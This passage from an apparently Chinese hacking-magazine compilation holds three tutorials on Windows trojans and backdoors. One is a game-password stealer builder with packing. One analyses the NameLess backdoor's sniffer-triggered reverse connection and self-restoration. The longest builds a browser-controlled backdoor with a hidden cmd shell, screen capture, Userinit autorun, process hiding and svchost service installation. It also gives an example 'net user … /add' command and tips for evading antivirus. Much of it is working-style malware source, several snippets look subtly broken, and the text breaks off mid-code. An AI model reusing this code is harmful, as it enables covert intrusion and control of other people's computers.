                (LPVOID)(hmem+i),chart,strlen(chart)+1,NULL))
                result=true;
            break;
        }
    }
    return result;
}
```

#### 文件配置程序编写

最后简单说说配置程序，程序由 MFC 编写。它包含两个 Bin 资源：一个是 `Setup.exe`，另一个是 `Upack.exe`（用于加壳压缩）。用户点击“生成”按钮后先判断邮箱测试是否通过，然后将 Setup.exe 的二进制资源载入内存，根据用户配置修改资源中的字符串，生成 Setup.exe。

```cpp
hrsrc1=FindResource(NULL, MAKEINTRESOURCE(IDR_BIN1), "BIN");
size=SizeofResource(NULL, hrsrc1);
hglobal1=LoadResource(NULL, hrsrc1); // 载入资源
hmem=(char *)malloc(size+1);
WriteProcessMemory(GetCurrentProcess(),hmem,(LPCVOID)
    LockResource(hglobal1),size,&size2); // 将资源写入内存

strcpy(from,"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa");
strcpy(to,writestr); // writestr 为用户名和密码
result=ModifyFile(hmem,size,from,to); // 修改内容

if(result && GetCheckedRadioButton(IDC_RADIO1,IDC_RADIO2)==IDC_RADIO1)
{
    strcpy(from,"dldldldll");
    strcpy(to,"DLDLDLDLL");
    result=ModifyFile(hmem,size,from,to);
}
else
{
    strcpy(from,"dldldldll");
}
```

生成 `Setup.exe` 文件后，再将二进制资源 `Upack.exe` 写入文件，使用 `WinExec("upack.exe setup.exe", SW_HIDE)` 对 Setup.exe 进行压缩加壳，最后生成的 Setup.exe 约 6.97KB。

## 木马程序的卸载

本木马的卸载较简单。如果采用 DLL 转发方式安装，先删除游戏安装目录下的 `DivxDecoder.dll`，再把 `Unicode.dll` 重命名为 `DivxDecoder.dll` 即可。如果是注册表自启动方式安装，手工卸载较麻烦，可用工具打开 `Winlogon.exe` 进程并卸载其中 `Desktop.dll` 模块，或通过注册表监视阻止 `Winlogon.exe` 写注册表，再删除 `langouster` 项并重启。

木马无孔不入，希望提高安全意识并学会使用系统密码找回功能；同时也希望厂商加强游戏安全，保护用户“财产”。最后感谢相关协助者。

【本文涉及的代码（程序），请见随书光盘】

## 经典重现之NameLess

后门技术全面分析


文／灰狐（D.S.T && E.S.T）

NameLess的大名大家都应该听说过吧？这个后门仅有一个DLL文件，平时不开端口，可以进行反向连接。

这个后门早已经“开源”了，网上流传最广的是V1.14稳定版。哈哈，这样的好事可千万不能错过哦。我立马从网上下载回来研究了一下，越读越觉得有味道，就在这里把一些心得分享给大家吧，希望对各位能有所帮助。

对于一个较完整的后门来说，最需要关心的地方莫过于几点：启动方式、连接方式、控制功能、自身保护。而NameLess就具备了一个完整后门的所有功能，我们就通过品读它的代码来启发自己做出一个属于自己的后门吧。

首先鼠标双击NameLess.dsw文件打开，我的测试环境是VC6.0。为了方便分析，我同时使用EditPlus将其打开，便于快速查找各函数的定义、跟踪流程。

后把自身的一些信息，比如密码、替换的服务名，也保存在这里以备卸载的时候恢复。后面紧接着就是卸载函数RemoveService，大概流程就是先判断密码是否正确，然后到“注册表路径1”中找到原服务的文件路径进行恢复，然后删除“注册表路径1”（代码我就不贴了，见附件源工程中的NameLess.cpp文件）。

这种启动方法只需替换掉系统中原有不太重要的服务即可。在当时来说，效果应该是比较明显的，不过随着现在主动防御的大行其道，这种直接修改注册表的方法已失去了效果。毕竟是两年前的作品了。但主动防御也不是无懈可击，它毕竟还是要被用户控制的（技术是要为用户服务的）。

#### 启动方式

NameLess后门的安装方法：打开CMD窗口，转到后门放置的目录，输入“Rundll32 NameLess.dll, Install ServiceName ActiveString Password”即可。可见它是通过系统提供的Rundll32程序来进行安装的（毕竟它只有一个DLL文件）。安装函数代码在导出的Install函数中，我们在源工程中找到这个函数并跟踪到InstallService(param)中，就一目了然。

作者首先用自写的DesStringArgument函数把命令行参数给分解出来，再用自写的ReadRegEx函数检查注册表键HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\NameLess（我们下面用“注册表路径1”来代替这个路径）是否存在，然后进入HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\“ServiceName”（注册表路径2）把Start的值改为2，接着进入子项“Parameters”中把原服务的ServiceName读取出来后保存到“注册表路径1”中，随后把自身的一些信息也写入，用于卸载恢复。

#### 连接方式

现在我们的后门可以启动了，但它是如何工作的呢？我们知道，如果程序以服务方式启动的话，在DLL中必须导出一个ServiceMain函数，所以我们就在NameLess.cpp文件中找到该函数开始我们的分析过程。

这里先注册了一个服务控制函数ServiceHandler以便控制服务的启动、暂停等行为，具体的实现在TellSCM函数中，这个函数是通过调用API函数SetServiceStatus实现的，没什么新意。我们回到ServiceMain函数中继续看，就剩下一个调用了：RealService，看样子是从这里开始了真正的工作。

在RealService函数中经过一系列的读取注册表初始化后，程序创建了一个保护线程（该线程函数ShieldThread的实现代码在源工程./Command/Shield.h文件中，这个放到后面的“自我保护”功能中讲解），然后初始化套接字InitSocket，紧接着StartSniffer，再之后就调用了WSACleanup开始做清理工作了，所以我们就来专注分析StartSniffer函数吧（函数的实现代码在源工程./Sniffer/Sniffer.h文件中）。

这里首先建立了一个IPPROTO_IP类型的原始套接字，紧接着调用函数GetInetIP获取本机的IP地址。这个GetInetIP函数中对各种情况都进行了比较完善的考虑，大家在做自己的程序时可以参考一下。我们继续关注它的sniffer工作，在bind了套接字之后调用了WSAIoctl将第二个参数dwIoControlCode设置为SIO_RCVALL，以捕获流经本机的所有数据。每捕获到一个数据包后就调用自写函数DecodeIPPack（具体功能后面有分析）将其解析出来，然后创建一个StartBackDoor线程，因为给它传递的参数为NULL，所以此线程函数将执行BindShell函数（实现代码在./Socket/Socket.h文件中），建立一个新的监听套接字，将其属性设置为可重用，每监听到一个新的连接后就为其建立一个会话套接字并比较源IP，代码如下。

```
if(strcmp(SourceIP,inet_ntoa(AcceptAddr.sin_addr)))
{
    closesocket(AcceptSocket);
    continue;
}
```

这一段代码的作用比较容易让人感到迷惑，AcceptAddr是接收到的连接另一方属性。我们使用EditPlus的“在文件中查找”，在整个目录里面搜索SourceIP，查看它到底是做什么的。最后，我把注意力放在了DecodeIPPack函数上（实现代码在./Sniffer/Sniffer.h文件中）。

```
BOOL DecodeIPPack(const char * IPBuffer)
{
    IPHeader * pIpheader;
    int IPHeaderLen;
    struct sockaddr_in SourceAddr;
    pIpheader = (IPHeader*)IPBuffer;
    if ((pIpheader->proto != IPPROTO_TCP))
        return FALSE;
    SourceAddr.sin_addr.s_addr = pIpheader->sourceIP;
    memcpy(SourceIP, inet_ntoa(SourceAddr.sin_addr), sizeof(SourceIP));
    IPHeaderLen = sizeof(unsigned long) * (pIpheader->h_lenver & 0xf);
    return DecodeTCPPack(IPBuffer + IPHeaderLen);
}
```

前面我们提到了这个函数，但并不知道它的具体作用，现在就来详细分析一下。每当捕获到一个数据包就传递给这个函数，并将其强制转换成IPHeader类型（这个结构类型会经常用到，网上有很多，附带的源代码中定义在Sniffer.h文件中）。函数首先检查数据报的协议类型是否为IPPROTO_TCP，然后将sourceIP字段值赋给SourceAddr.sin_addr.s_addr，再通过memcpy函数复制到SourceIP变量中。到这里我们可以知道，每一个协议为IPPROTO_TCP的数据包的源IP都会被赋给SourceIP，随后将其传递给了DecodeTCPPack和CheckTcpData函数。在这两个函数中先进行初始化处理，然后调用CheckTcpData检查数据。这个函数有一点点长，所以我就简单介绍一下它的工作流程。首先在数据报中找到“\n”，接着判断它前面是否为“\r”，如果是就把前面的内容全部复制到一个字符串StringData中，再使用“PortPoint = strstr(StringData, ":")”和“HostPoint = strstr(StringData, "/")”这两句在里面寻找主机地址和端口，紧接着还会分析端口合法性和主机地址的有效性。

从这里可以知道，它是使用嗅探原理来取得控制端的IP实现反向连接的。大概原理就是捕获流经本机的所有数据包，然后根据自定义的协议来分析是否是控制端发送过来的数据，如果是就从中取得相关信息后连接。好了，中间分析了这么多后，我们回到strcmp(SourceIP, inet_ntoa(AcceptAddr.sin_addr))这里继续看。通过上面的分析，我们清楚了SourceIP是用来区分是否是控制端的IP的。如果符合规则的话，就为其建立一个控制线程，在此线程函数ClientThread中使用自定义函数ReceiveMessage来接收命令，首先判断输入的密码是否正确，通过后即发送预定义的欢迎信息，然后进入一个循环中不停地接受控制端的命令并执行。

到这里，我们就基本上把NameLess的连接流程搞清楚了。这种使用嗅探的方法容易过防火墙，但是当网络繁忙的时候很容易丢失封包。现在一些其他的反向连接方式更加流行，就是通过一个固定的域名来作为中转站：控制端每次启动的时候都自动将自己的IP更新到一个指定的网页文件中，而服务端就通过读取这个文件来得到控制端的IP后主动进行连接。网上的资料很多，大家可以多找一些代码参考。

#### 控制功能

现在我们再来看看NameLess的控制功能，这个其实就属于系统编程的内容了。以前的《黑客防线》杂志里面涉及了很多，我们今天就只拣一些比较有代表性的讲解一下。所有的命令实现代码都在\Command\目录下的相关文件中。NameLess的大多数功能都是很常见的，比如列举进程、下载文件、清理日志等，经常看《黑客防线》杂志的各位估计早就会了。得到系统当前登录用户的密码这个功能貌似不错，不过挺复杂，NameLess中是注入到WinLogon进程并调用了一些未公开的API，比如NtQuerySystemInformation等，这里就不多讲了，有兴趣的可以自行阅读代码Findpass.h来学习。挑来挑去还是拿开启终端服务来讲一下吧，这个功能还是蛮有用的，说白了其实就是操作注册表。

```c
void InstallTerm(SOCKET Socket,DWORD NewPort)
{
    int a = WriteRegEx(HKEY_LOCAL_MACHINE,
      "SYSTEM\\CurrentControlSet\\Control\\Terminal Server",
      "TSEnabled",REG_DWORD,NULL,1,0);
    int b = WriteRegEx(HKEY_LOCAL_MACHINE,
      "SYSTEM\\CurrentControlSet\\Services\\TermService",
      "Start",REG_DWORD,NULL,2,0);
    int c = WriteRegEx(HKEY_LOCAL_MACHINE,
      "SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp",
      "PortNumber",REG_DWORD,NULL,NewPort,0);

    if(a && b && c)
        sprintf(Temp,"Set New Terminal Service Port:%d Successfully!\r\n",NewPort);
    else
        sprintf(Temp,"Set New Terminal Service Failed\r\n");

    SendMessage(Socket,Temp);
}
```

WriteRegEx是作者自己写的函数，方便了写程序过程中的重用。网上还流传一份完整开启终端的C代码，搜“开3389源代码”就可以找到很多。

虽然NameLess的控制功能比较全面，但大多数的功能其他后门也都具备，好像缺少一些所谓的特色功能。不过个人非常同意这种做法，毕竟后门最重要的功能在于隐藏，拥有强大功能的那是远程控制，呵呵。

#### 自身保护

作为一个后门，你不能假设“肉鸡”永远不会发现你，因此具有一定的自我保护能力是必须的，否则说不定随便一个新入门的菜鸟用任务管理器就能把你kill了。

NameLess在连接上后可以通过输入命令Shield来启动保护功能，UnShield来停止。我们先看一下Shield的实现方法，根据ExeCommand函数的提示，很快就找到了代码实现函数SetShieldStatus（位于/Command/Shield.h文件中）。此函数很短，很清楚地看到它是通过创建一个ShieldThread线程来实现自我保护的，停止的话就是把这个线程给TerminateThread掉。我们详细看一下ShieldThread函数是如何实现自我保护的。

```c
ShieldFlag = 1;
strncpy(ProtectKey1,SubRoot,sizeof(ProtectKey1));
```

```c
strncat(ProtectKey1,ServerCFG.ServiceName,sizeof(ProtectKey1));
strncpy(ProtectKey2,ProtectKey1,sizeof(ProtectKey2));
strncat(ProtectKey2,"\\Parameters",sizeof(ProtectKey2));
GetModuleFileName((HMODULE)hDll, DllFilePath, MAX_PATH);
hDllFile = CreateFile(DllFilePath,GENERIC_READ,0,0,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,0);
SizeDll = GetFileSize(hDllFile,0);
MemDll = VirtualAlloc(0,SizeDll,MEM_COMMIT|MEM_RESERVE,PAGE_READWRITE);
ReadFile(hDllFile,MemDll,SizeDll,&BytesRead,0);
CloseHandle(hDllFile);
while(1){
    hSearch = FindFirstFile(DllFilePath,&FileData);
    if(hSearch==INVALID_HANDLE_VALUE){
        hDllFile = CreateFile(DllFilePath,GENERIC_WRITE,0,0,CREATE_ALWAYS,FILE_ATTRIBUTE_NORMAL,0);
        WriteFile(hDllFile,MemDll,SizeDll,&BytesRead,0);
        CloseHandle(hDllFile);
    }
    FindClose(hSearch);
    WriteRegEx(HKEY_LOCAL_MACHINE,ProtectKey1,"Start",REG_DWORD,NULL,2,1);
    WriteRegEx(HKEY_LOCAL_MACHINE,ProtectKey2,"ServiceDll",REG_EXPAND_SZ,DllFilePath,NULL,0);
    Sleep(30000);
}
```

我就不一句句分析了，只大体说一下流程：取得DLL路径名→读方式打开→获取文件大小→申请一块同样大小的内存→将文件内容读取到该块内存中→循环每30秒进行一次以下工作→查找该DLL是否存在，不存在则创建并将以上分配的内存块中数据写入该文件→将保护键值写入到注册表。

这种方法似乎有很多问题，因为它并不是采用常用的双进程或在某个常驻系统进程中创建一个远线程。这样一来，如果当DLL文件被删除、注册表被修改后，马上将Rundll32进程结束掉，就可能永远没办法“复活”了。

#### 总结

通过以上的简单分析，我们可以看出这款后门在技术上其实并没有很多创新的地方，但它的经典之处在于考虑问题非常全面，并使用了一些不常见的思路，尽最大努力做到了稳定。这样的编程思路对于我们的学习非常值得借鉴，呵呵；另外值得一提的是，这份工程代码非常规范，比如把读写注册表的操作封装到自定义的函数中，这点就很值得我们借鉴。

【本文涉及的代码（程序），请见随书光盘】

## 克隆B/S后门开发实践


文／图 天游浪人

在2007年第9期《黑客防线》杂志上的《B/S模式远程控制简单实现》一文中，我给大家介绍了一种B/S模式下远程控制软件的实现思路，重点介绍了基于浏览器的远程控制软件的通信原理，以及HTTP协议请求和响应的过程。文中给出的实现代码也只是一个框架模板，具体实现的只是一个PSLIST列系统进程和SYSINFO查看系统信息的功能，其他功能由于篇幅原因，没有给出实现代码。后门中比较重要的一些功能，像提供一个CMD的SHELL，就没有实现。作为一个后门，若不能执行系统命令，其功能就大打折扣了。再一个就是查看桌面，由于B/S模式下是以浏览器作为客户端连接被控主机的，而不是CMD下用TELNET或是NC，这就让查看桌面成为了可能，这样被控端电脑上的一举一动就都尽收眼底了。

其中最重要的就是第一行了，GET是该HTTP数据包请求的方法，“/”后面的是向Web服务器请求的文件。由于只用地址栏向程序发送控制命令，所以只要在程序里处理GET请求，从中分析出控制命令就够了，这样也不需要知道太多HTTP协议的细节。

再一个就是服务器端（后门程序）数据发送的问题了。我们知道，IE是按照HTTP协议工作的，浏览器接收到数据后也是按此格式来显示的，所以服务器端的数据也要以HTTP协议的格式打包发送给IE，这样IE才能正常显示接收到的数据。这里还是看一下我在那篇文章里用到的按HTTP协议给数据打包并发送的函数。

#### 基本功能实现

本文所说的后门，不需要像远程控制软件那样既要有好看的界面，又要有易用的操作。了解HTTP的都知道，向Web服务器发送数据一般有GET和PUT两种方法，这里我仿照土豆服务器，在IE地址栏里以GET方法的形式发送控制命令，浏览器只要把服务器端返回的数据显出来就可以了。URL地址类似http://127.0.0.1/index.htm，在地址栏里点“发送”经IE处理后变为下面的格式发送。

```
GET /index.htm HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/pjpeg,image/pjpeg,application/x-shockwave-flash,application/msword,*/*
Accept-Language: zh-cn
UA-CPU: X86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)
Host: 127.0.0.1
// 初始URL中的主机和端口，默认为80
Connection: Keep-Alive
```

```c
BOOL SendToIE(SOCKET s, char *data)
{
    char buffer[4096+200];
    char html[MAXDATASIZE];
    sprintf(html,"<html>\r\n"
        "<head>\r\n"
        "<title>天涯浪人后门测试——黑客防线</title>\r\n"
        "<meta name=GENERATOR content=Microsoft FrontPage 3.0>\r\n"
        "</head>\r\n"
        "<body>%s</body>\r\n"
        "</html>\r\n",data);
    getCurrentTime(Time);
    sprintf(buffer, "HTTP/1.1 200 OK\r\n"
        "Server: Microsoft-IIS/5.0\r\n"
        "Date: %s\r\n"
        "Content-Length: %d\r\n"
        "Content-Type: text/html\r\n"
        "Cache-control: private\r\n\r\n"
        "%s\r\n",Time, strlen(html), html);
    send(s,buffer,(DWORD)strlen(buffer),0);
    return true;
}
```

这样，数据经过这个函数处理后发送给 IE，IE 就能以网页的形式显示出来了。数据通信的思路有了，下面就看后门的自身特性了。

作为一个后门程序，隐蔽性是其生存时间长短的重要因素。隐蔽性通常包含后门启动的隐藏、运行时的隐藏，以及通信时的隐藏；还包括有无开新端口和能不能穿透防火墙。后门的自启动常见的有注册表 RUN 自启动和系统服务自启动，但现在杀软对这两个地方都盯得紧，像 360 安全卫士就有显示 RUN 下的自启动程序和显示系统自启动服务，只能找一个不起眼的地方让程序自启动。我们知道，在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 路径的 Userinit 键下的程序会随系统自动启动，只要把程序名用逗号与 `userinit.exe` 分隔开就行了。下面就是加载启动项的代码。

```cpp
void autorun()
{
    char ExeFile[MAX_PATH];
    char TempPath[MAX_PATH];
    char regname[MAX_PATH]="userinit.exe,http.exe";
    GetModuleFileName(NULL,ExeFile,MAX_PATH);
    GetSystemDirectory(TempPath,MAX_PATH);
    strcat(TempPath,"\\http.exe");
    CopyFile(ExeFile,TempPath,FALSE);
    HKEY key;
    if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,
      "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon",0,KEY_ALL_ACCESS,&key)==ERROR_SUCCESS)
    {
      RegSetValueEx(key,"Userinit",0,REG_SZ,(BYTE*)regname,strlen(regname));
      RegCloseKey(key);
    }
}
```

Userinit 键下自启动的程序，像 360 安全卫士、优化大师是不显示出来的，这样一来，一般人就找不出我们的后门了。

下面进入后门主要处理过程的开发。我们先回顾一下上面的思路，程序的具体思路是：在 B/S 模式下以 IE 为客户端，向服务器端发送 GET 请求，后门程序处理请求并做出响应，同时程序应有比较隐蔽的启动方式和进程隐藏。

我们设计的命令格式是这样的：

- `http://127.0.0.1/PASS=123456&xcmd=viewscreen`  
  `// 查看桌面，标识为 xcmd`
- `http://127.0.0.1/PASS=123456&cmd=netstart`  
  `// 执行 CMD 系统命令，标识为 cmd`

下面是程序收到 IE 发送的数据后的处理过程。

```cpp
void DealWithGet(SOCKET s)
{
    if((buf[0]=='G'||buf[0]=='g')&&(buf[1]=='E'||buf[1]=='e')&&(buf[2]=='T'||buf[2]=='t'))
    {
        if(buf[5]==' ')
            SendToIE(s,"<center><font color='#DC143C'>没有命令!</font></center>\r\n");
        else
        {
            char *pass = NULL;
            char *cmd = NULL;
            char SysPath[MAX_PATH]={0};

            if(strstr(buf,"PASS=")==NULL||strstr(buf,"&")==NULL||strstr(buf,"?")!=NULL||strstr(buf,"cmd")!=NULL)
                SendToIE(s,"<center><font color='#DC143C'>命令格式错误</font></center>\r\n");
            else
            {
                pass = GetStr(buf,"PASS=","&");
                if(strcmp(pass,PASSWD)==0)
                {
                    switch(requestCMD = GetCmd(buf))
                    {
                        case PSLIST:
                            pslist(s);
                            break;
                        case SYSINFO:
                            sysinfo(s);
                            break;
                        case CMDERROR:
                            SendToIE(s,"CMDERROR\r\n");
                            break;
                        case SCREEN:
                            GetSystemDirectory(SysPath,MAX_PATH);
                            strcat(SysPath,"\\screen.dat");
                            CapScreen(SysPath);
                            sendfile(s,SysPath);
                            break;
                        case ERROR:
                            SendToIE(s,"ERROR\r\n");
                            break;
                        case CMD:
                            cmdshell(s);
                            break;
                        case INSTALL:
                            autorun();
                            break;
                    }
                }
                else
                    SendToIE(s,"<center><font color='#DC143C'>密码错误</font></center>\r\n");
            }
        }
    }
    else
    {
        SendToIE(s, "<center><font color='#DC143C'>不是GET方法!</font></center>\r\n");
    }
}
```

上面的 `void DealWithGet(SOCKET s)` 函数先判断接收的数据头 3 个字符是不是 `GET`，是则说明收到了 IE 的请求，再按照设计的命令格式用 `GetStr(char *buff,char *frist,char *last)` 函数分离出密码。

```c
char * GetStr(char *buff,char *frist,char *last)
{
    char temp[1024]={0};
    char *F=NULL,*L=NULL,*re=NULL;
    if(strstr(buff,frist)==NULL || strstr(buff,last)==NULL) return NULL;
    F=strstr(buff,frist)+strlen(frist);
    L=strstr(buff,last);
    memcpy(temp,F,L-F);
    return re=temp;
}
```

若密码正确就进入命令判断阶段，根据命令调用相应函数。这里用到了 `switch()` 结构来处理命令选择过程，用 `GetCmd(char *buff)` 函数判断并返回相应命令事件，具体代码如下。

```c
int GetCmd(char *buff)
{
    char *flag=NULL;
    char *cmd=NULL;
    char *re=NULL;
    flag=GetStr(buf,"&",">");
    if(strcmp(flag,"cmd")==0){
        return CMD;
    }else if(strcmp(flag,"xcmd")==0){
        re=GetStr(buf,"xcmd="," HTTP");
        if(strcmp(re,"pslist")==0) return PSLIST;
        else if(strcmp(re,"sysinfo")==0) return SYSINFO;
        else if(strcmp(re,"viewscreen")==0) return SCREEN;
        else if(strcmp(re,"install")==0) return INSTALL;
        return CMDERROR;
    }else{
        return CMDERROR;
    }
}
```

这里只开发了几个常见的功能：像列进程、查看系统信息、执行 CMD、查看桌面。若要增加功能，在这里加入返回值并添加对应处理函数即可。相关代码可查看随文工程源码，这里重点看执行 CMD 命令。

由于 CMD 命令执行结果要发送给远程浏览器，所以不能用 SOCKET 替代进程输入输出句柄直接建立 `cmd.exe` 子进程，而要建立匿名管道。对管道中数据读取处理后，由 `SendToIE(SOCKET s,char *data)` 函数打包成 HTTP 格式发送给远程 IE 进程。过程如下：

（远程主机）→ 传送命令 → 以命令为参数建立 `cmd.exe` 子进程运行；

（远程主机）← 输入 ← HTTP 打包处理 ← 管道1输出 ← 管道1输入 ← 输出（`cmd.exe` 子进程）。

下面还是一步一步看代码吧。

```c
void cmdshell(SOCKET s)
{
    // 建立匿名管道
    char *ret1=NULL;
    char ret2[1024]={0};
    SECURITY_ATTRIBUTES pipeattr1;
    HANDLE hReadPipe1,hWritePipe1;
    pipeattr1.nLength=12;
    pipeattr1.lpSecurityDescriptor=0;
    pipeattr1.bInheritHandle=true;
    CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
    STARTUPINFO si;
    ZeroMemory(&si,sizeof(si));
    si.dwFlags=STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow=SW_HIDE;
    si.hStdOutput=si.hStdError=hWritePipe1;
    PROCESS_INFORMATION ProcessInformation;
    char cmdLine[200];
    unsigned long lBytesRead;
    char temp[MAXDATASIZE]={0};
    ret1=GetStr(buf,">"," HTTP");
    // 分离出 CMD 命令
}
```

这里分离得到的 CMD 命令是形如 `net%20user%20tianya%20/add` 的。命令中间空格被 IE 发送时做了 URL 编码，空格编码后变成 `%20`，`CMD.EXE` 无法识别这种命令，因此还要把 `%20` 还原为空格分隔命令。

```c
char gcmd[5][1024]={0};
char *token;
int n=0;

token = strtok(ret1, "%20");
while(token != NULL)
{
    strcpy(&gcmd[n][1024], token);
    token = strtok(NULL, "%20");
    n++;
}
// 把 net%20user%20tianya%20/add 以 %20 为标记分开
int k=1;
while(k<=n)
{
    strcat(ret2,gcmd[k]);
    strcat(ret2," ");
    k++;
}
// 把命令还原成以空格分开的形式
```

以命令为参数，启动 `cmd.exe` 子进程，并检查管道是否有输出，并把输出结果处理后发送给远程主机。

```c
strcpy(cmdLine,"cmd.exe /c ");
strcat(cmdLine, ret2, strlen(ret2));
CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
Sleep(400);
int ret=PeekNamedPipe(hReadPipe1,buf,1024,&lBytesRead,0,0);
if(lBytesRead)
{
    ret=ReadFile(hReadPipe1,buf,lBytesRead,&lBytesRead,0);
    int i,len;
    len = strlen(buf);
    for(i=0;i<len+1;i++)
    {
        if(buf[i]!='\n') temp[j]=buf[i];
        else { temp[j]='<'; temp[j+1]='b'; temp[j+2]='r'; j+=3; }
        j++;
    }
    temp[j]='\0';
    SendToIE(s,temp);
    memset(buf,0,sizeof(buf));
    memset(temp,0,sizeof(temp));
}
```

下面就是 `main()` 函数了，其代码如下。

```c
void main()
{
    WSADATA wsadata;
    SOCKET Listen,Accept;
    ...
}
```

```c
struct sockaddr_in Http_Server,client;
if(WSAStartup(MAKEWORD(2,2),&wsadata)!=0)
{
    printf("无法加载套接字协议栈\n");
    return;
}
Listen=socket(AF_INET,SOCK_STREAM,0);
if(Listen==INVALID_SOCKET)
{
    printf("套接字初始化出现错误");
    return;
}
Http_Server.sin_family=AF_INET;
Http_Server.sin_port=htons(PORT);
Http_Server.sin_addr.s_addr=htonl(INADDR_ANY);
if(bind(Listen,(LPSOCKADDR)&Http_Server,sizeof(Http_Server))==SOCKET_ERROR)
{
    printf("绑定端口出错");
    return;
}
if(listen(Listen,5)==SOCKET_ERROR)
{
    printf("监听出现问题错误号码");
    return;
}
int iAddrSize=sizeof(client);
HideProcess();
while(true)
{
    Accept=accept(Listen,(struct sockaddr*)&client,&iAddrSize);
    if(Accept==INVALID_SOCKET) { printf("连接出现错误"); break; }
    recv(Accept,buffer,sizeof(buf),0);
    int i=0;
    while(buffer[i]!='\n') { buf[i]=buffer[i]; i++; }
    buf[i]='\0';
    DealWithGet(Accept);
    closesocket(Accept);
}
closesocket(Listen);
WSACleanup();
```

至此，我们的 B/S 后门基本开发完了，图1和图2是后门运行时的截图。当然，作为一个后门，这个程序的功能还是不够，不过在现有基础上增加功能倒是很容易，接下来我们就继续深入下去，做进一步的开发。

#### 深入功能实现

上面我们编写的后门虽然是一个有实际应用意义的后门，但是作为一个后门程序，它还有不少的不足，比如说程序的启动方式不够隐蔽，程序在……如图3所示。所以我们接下来要把后门编译成动态链接库（DLL），而不编译成可执行程序 EXE。我们都知道，Windows 系统的 EXE 和 DLL 文件格式是一样的，都是 PE 格式的可执行程序，EXE 能直接由系统加载执行，而 DLL 却不行。现在网上很多木马病毒都以 DLL 的形式注入到其他进程的空间里运行自身，以穿透防火墙，我们也可以用创建远程线程的方法把 DLL 后门注入到别的进程里运行，这种方法可以使我们的后门没有进程，隐蔽性大大得到增强。但是现在很多杀毒软件都对 `CreateRemoteThread` 函数调用进行了监视，比如卡巴斯基，当病毒要调用此函数创建远程线程时，就会弹出一个提示窗口，这样我们的后门不仅没有运行的机会，而且还很可能被发现。因此，我们要用替换系统服务的方法由 `svchost.exe` 启动 DLL 后门。


图1


图3


图2

## 木马后门类

下面简单说一下 `svchost.exe` 的原理。Windows 系统进程分为独立进程和共享进程两种，随着 Windows 系统服务不断增多，为了节省系统资源，微软把很多服务做成共享方式，交由 `svchost.exe` 进程来启动。但 `svchost.exe` 进程只作为服务宿主，并不能实现任何服务功能，需要 SVCHOST 启动的服务是以动态链接库的形式实现的。在安装服务的时候，把可执行程序指向 `svchost.exe`，由 `svchost.exe` 调用相应服务的动态链接库来启动服务。而哪个服务是由哪一个动态链接库负责，则是通过系统服务在注册表中设置的参数来实现的。

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 路径的 Userinit 键下加载了自启动项，像 360 安全卫士、优化大师是不显示出来了，但还是有很多安全工具注意到了这个地方，能显示此键值下的自启动项，而且后门程序名和系统的 `userinit.exe` 放在一起有一定的迷惑性，让人不敢随便删除。还有，一个好的后门程序应该有一定的定制性，比如说修改开放端口，或是用自己的连接密码，再或者说想改一下加载的启动项的键值，等等，所以下面我们就来针对上面说的不足的地方，继续深入打造一个完美的 B/S 后门程序。

上面的 B/S 后门是一个 EXE 可执行文件，虽然进程隐藏起来了，在任务管理器里看不到，但还是逃不过冰刃的法眼，后门进程在冰刃的进程列表里显示了出来，而且还是红色显示，表示是隐藏的进程。

接下来我们把上面编写的后门改造成由 `svchost.exe` 启动的 DLL。打开 VC6.0，新建一个 DLL 工程，选择建立一个 “A Simple DLL Project”，把 `http.cpp` 中的源代码全部复制到 DLL 工程里，注释掉 `#include "HideProcess.h"` 并删除相关调用，在 `DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)` 函数里添加如下代码：

```c
switch( ul_reason_for_call )
{
    case DLL_PROCESS_ATTACH:
        hDll = hModule;
    default:
        return TRUE;
}
return TRUE;
```

再把 `main` 函数名改为 `DWORD WINAPI Mainthread(LPVOID lpParam)` 并添加声明，这样就可以把代码编译成 DLL 文件了，很简单吧？之后就是 SVCHOST 启动了。要实现由 SVCHOST 服务启动并不难，只要实现一个 `void ServiceMain()` 函数，能让 `svchost.exe` 调用，将其注册为服务控制程序就可以了。下面是实现代码。

```cpp
void ServiceMain(int argc, wchar_t *argv[])
{
    char svcname[256];
    strncpy(svcname, (char*)argv[0], sizeof(svcname));
    wcstombs(svcname, argv[0], sizeof(svcname));
    OutputString("SvcHostDLL: ServiceMain(%d, %s) called");
    hSrv = RegisterServiceCtrlHandler(svcname, (LPHANDLER_FUNCTION)ServiceHandler);
    if (hSrv == NULL) { return; }
    TellSCM(SERVICE_START_PENDING, 0, 1);
    TellSCM(SERVICE_RUNNING, 0, 0);
    // 创建线程运行后门主要代码
    CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)MainThread, NULL, NULL, NULL);
    return;
}
```

上面的 `ServiceMain()` 函数将在系统服务控制程序启动服务的时候调用，而服务要由 `svchost.exe` 自动启动，则要改写注册表完成，下面的代码会将服务的 DLL 改为自身。

```cpp
BOOL InstallService()
{
    // Open a handle to the TSC Manager database.
    int rc = 0;
    HKEY hKey, hkParam = 0;
    SC_HANDLE hscm = NULL, schService = NULL;
    char buff[500];

    // query svchost setting
    char *ptr, *pSvchost = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Svchost";
    rc = RegOpenKeyEx(HKEY_LOCAL_MACHINE, pSvchost, 0, KEY_QUERY_VALUE, &hKey);
    if (ERROR_SUCCESS != rc) { ... }

    DWORD type, size = sizeof(buff);
    rc = RegQueryValueEx(hKey, "netsvcs", 0, &type, (unsigned char*)buff, &size);
    RegCloseKey(hKey);
    if (ERROR_SUCCESS != rc) { ... }
}
```

```cpp
